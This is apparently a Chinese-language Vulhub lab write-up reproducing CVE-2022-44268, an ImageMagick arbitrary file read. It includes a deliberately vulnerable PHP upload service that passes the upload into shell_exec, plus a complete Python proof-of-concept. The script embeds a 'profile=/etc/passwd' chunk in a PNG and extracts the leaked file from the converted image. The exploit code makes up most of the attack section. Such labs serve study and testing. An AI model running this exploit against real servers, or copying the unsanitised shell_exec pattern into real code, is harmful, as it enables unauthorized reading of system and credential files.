




# ImageMagick任意文件读取漏洞 CVE-2022-44268

## 漏洞描述

ImageMagick是一款使用量很广的图片处理程序，很多厂商都调用了这个程序进行图片处理，包括图片的伸缩、切割、水印、格式转换等等。

在ImageMagick 7.1.0-51版本及以前，其处理PNG文件的代码中存在一处功能，会导致转换图片时读取到当前操作系统上的任意文件，并将文件内容输出在图片内容中。

参考链接：

- https://www.metabaseq.com/imagemagick-zero-days/
- https://github.com/ImageMagick/Website/blob/main/ChangeLog.md#710-52---2022-11-06

## 环境搭建

Vulhub执行如下命令启动一个Web服务器，这个服务器的功能是将用户上传的任意图片缩小成50x50的PNG图片。

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8080`可以看到图片上传框：



[后端服务](#后端服务代码)的代码十分简单：

```
$newname = uniqid() . '.png';
shell_exec("convert -resize 50x50 {$_FILES['file_upload']['tmp_name']} ./{$newname}");
```

## 漏洞复现

利用这个漏洞，需要先准备一个恶意PNG文件，文件内容中包含我们准备读取的文件路径：

可以使用[poc.py](#poc.py)来生成这个图片：

```
python poc.py generate -i input.png -o poc.png -r /etc/passwd
```

> 执行poc.py前请安装[PyPNG](https://pypng.readthedocs.io/en/latest/)：`pip install pypng`

如果你使用[010editor](https://en.wikipedia.org/wiki/010_Editor)查看这个图片，可以看到其中包含一个类型是`tEXt`的chunk，其中包含我们的Payload `profile=/etc/passwd`：



接着，我们将这个图片上传到目标服务中：



下载服务处理后生成的图片，使用[poc.py](#poc.py)提取出其中所有内容：

```
python poc.py parse -i output.png
```



可以看到，已经提取出`/etc/passwd`文件的内容，这部分内容是由ImageMagick在处理旧图片时读取并写入到新图片中。

## 附录

### 后端服务代码

```
<?php
$newname = '';
if (!empty($_FILES)) {
    $ext = pathinfo($_FILES['file_upload']['name'], PATHINFO_EXTENSION);
    if (!in_array($ext, ['gif', 'png', 'jpg', 'jpeg'])) {
        die('Unsupported filetype uploaded.');
    }

    $newname = uniqid() . '.png';
    shell_exec("convert -resize 50x50 {$_FILES['file_upload']['tmp_name']} ./{$newname}");
}
?>
<form method="post" enctype="multipart/form-data">
    File: <input type="file" name="file_upload">
    <input type="submit">
</form>
<br>
<?php
if ($newname):
?>
<h1>Your image:</h1>
<p>
    <a href="./<?=$newname?>" target="_blank">
        " width="50" height="50">
    </a>
</p>
<?php
endif;
```

### poc.py

```
#!/usr/bin/env python3
import sys
import png
import zlib
import argparse
import binascii
import logging

logging.basicConfig(stream=sys.stderr, level=logging.INFO, format='%(asctime)s - %(levelname)s - %(message)s')
d = zlib.decompressobj()
e = zlib.compressobj()
IHDR = b'\x00\x00\x00\n\x00\x00\x00\n\x08\x02\x00\x00\x00'
IDAT = b'x\x9c\xbd\xcc\xa1\x11\xc0 \x0cF\xe1\xb4\x03D\x91\x8b`\xffm\x98\x010\x89\x01\xc5\x00\xfc\xb8\n\x8eV\xf6\xd9' \
       b'\xef\xee])%z\xef\xfe\xb0\x9f\xb8\xf7^J!\xa2Zkkm\xe7\x10\x02\x80\x9c\xf3\x9cSD\x0esU\x1dc\xa8\xeaa\x0e\xc0' \
       b'\xccb\x8cf\x06`gwgf\x11afw\x7fx\x01^K+F'


def parse_data(data: bytes) -> str:
    _, data = data.strip().split(b'\n', 1)
    return binascii.unhexlify(data.replace(b'\n', b'')).decode()


def read(filename: str):
    if not filename:
        logging.error('you must specify a input filename')
        return

    res = ''
    p = png.Reader(filename=filename)
    for k, v in p.chunks():
        logging.info("chunk %s found, value = %r", k.decode(), v)
        if k == b'zTXt':
            name, data = v.split(b'\x00', 1)
            res = parse_data(d.decompress(data[1:]))

    if res:
        sys.stdout.write(res)
        sys.stdout.flush()


def write(from_filename, to_filename, read_filename):
    if not to_filename:
        logging.error('you must specify a output filename')
        return

    with open(to_filename, 'wb') as f:
        f.write(png.signature)
        if from_filename:
            p = png.Reader(filename=from_filename)
            for k, v in p.chunks():
                if k != b'IEND':
                    png.write_chunk(f, k, v)
        else:
            png.write_chunk(f, b'IHDR', IHDR)
            png.write_chunk(f, b'IDAT', IDAT)

        png.write_chunk(f, b"tEXt", b"profile\x00" + read_filename.encode())
        png.write_chunk(f, b'IEND', b'')


def main():
    parser = argparse.ArgumentParser(description='POC for CVE-2022-44268')
    parser.add_argument('action', type=str, choices=('generate', 'parse'))
    parser.add_argument('-i', '--input', type=str, help='input filename')
    parser.add_argument('-o', '--output', type=str, help='output filename')
    parser.add_argument('-r', '--read', type=str, help='target file to read', default='/etc/passwd')
    args = parser.parse_args()
    if args.action == 'generate':
        write(args.input, args.output, args.read)
    elif args.action == 'parse':
        read(args.input)
    else:
        logging.error("bad action")


if __name__ == '__main__':
    main()
```

